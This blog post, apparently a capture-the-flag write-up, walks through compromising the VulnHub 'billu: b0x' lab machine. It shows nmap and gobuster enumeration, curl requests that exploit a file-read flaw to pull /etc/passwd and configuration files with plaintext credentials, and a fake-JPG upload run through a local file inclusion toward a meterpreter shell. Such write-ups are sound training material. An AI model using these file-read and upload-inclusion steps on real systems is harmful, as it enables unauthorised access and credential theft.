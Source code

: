 ```yaml
---
layout: post
title:  "billu: b0x"
date:   2017-08-15 12:34
categories: ctf
---
```


billu: b0x is a boot-to-root vulnerable machine found on [VulnHub](https://www.vulnhub.com/entry/billu-b0x,188/). I pulled this down and ran it in Virtualbox.

Starting with an `nmap` we see there aren't many options to attack this box, but
it does lead well to practice with enumeration.

    nmap -p- 192.168.1.147

{% highlight text %}
Starting Nmap 7.40 ( https://nmap.org ) at 2017-08-15 15:00 EDT
Nmap scan report for indishell.hsd1.co.comcast.net (192.168.1.147)
Host is up (0.00013s latency).
Not shown: 65533 closed ports
PORT &nbsp; STATE SERVICE
22/tcp open &nbsp;ssh
80/tcp open &nbsp;http
MAC Address: 08:00:27:1C:31:B1 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.52 seconds
{% endhighlight %}

[[image of nmap]]


Let's start by enumerating 

    gobuster -u http://192.168.1.147 -w /usr/share/SecLists/Discovery/Web_Content/raft-large-directories.txt -e

{% highlight text %}
Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.1.147/
[+] Threads      : 10
[+] Wordlist     : /usr/share/SecLists/Discovery/Web_Content/raft-large-directories.txt
[+] Status codes : 301,302,307,200,204
[+] Expanded     : true
=====================================================
http://192.168.1.147/images (Status: 301)
http://192.168.1.147/add (Status: 200)
http://192.168.1.147/test (Status: 200)
http://192.168.1.147/c (Status: 200)
http://192.168.1.147/index (Status: 200)
http://192.168.1.147/panel (Status: 302)
http://192.168.1.147/in (Status: 200)
http://192.168.1.147/show (Status: 200)
http://192.168.1.147/uploaded_images (Status: 301)
http://192.168.1.147/head (Status: 200)
http://192.168.1.147/phpmy (Status: 301)
=====================================================
{% endhighlight %}

_

Looking at the test.php file, we find that it is looking for a `file` parameter.
I tried passing this a GET request but that didn't work so tested out with
a POST.

    curl -XPOST -d"file=/etc/passwd" http://192.168.1.147/test

Looking at the phpmy, I found that it's phpmyadmin. That has some good
information in the config file.

    curl -XPOST -d"file=/var/www/phpmy/config.inc.php" http://192.168.1.147/test

The important piece is related to the username and password that is in the
phpmyadmin configuration file.

{% highlight text %}
$cfg['Servers'][$i]['user'] = 'root';
$cfg['Servers'][$i]['password'] = 'roottoor';
{% endhighlight %}

I tried these credentials in the phpmyadmin login but they didn't work.

__Shortcut__
I found that I could ssh to the machine using root and the above password and
finish this machine, however figured I'd continue looking for a different way.

Using the curl script, I decided to look through the index.php file and
associated included files until I found the c.php file

    curl -XPOST -d"file=/var/www/c.php" http://192.168.1.147/test

This gives us the mysql connection string used by the login page.

Using these credentials, (billu:b0x_billu) we are able to get into phpmyadmin.
_

    $conn = mysqli_connect("127.0.0.1","billu","b0x_billu","ica_lab");

The auth table looks promising for information. Here we find another
username/password combination (passwords stored in plain text are good for
hackers)

biLLu:hEx_it

_

Using this combination I was able to login to the application itself where there
is an option to add users. This form includes a file upload section, however
it's limited to jpg, gif, and png.

Through other enumeration, I was able to find a file include vulnerability in
the panel.php file so perhaps I could upload something through this image upload
and have it get included in this local file inclusion vulnerability.

I can't remember where I found this trick but you can start a file with a given
character set to make the file meta data look like a jpg file.

https://github.com/aaronott/SecBucket/tree/master/images

Using this file, I was able to add php to the end of this file and get it
executed using the local file include vulnerability.

    msfvenom

I was then able to bypass the filetype filtering in the php. On my attacking
machine I created a meterpreter listener.

Calling the panel page using the `load` parameter for the include, I was able to
get the uploaded image to execute.

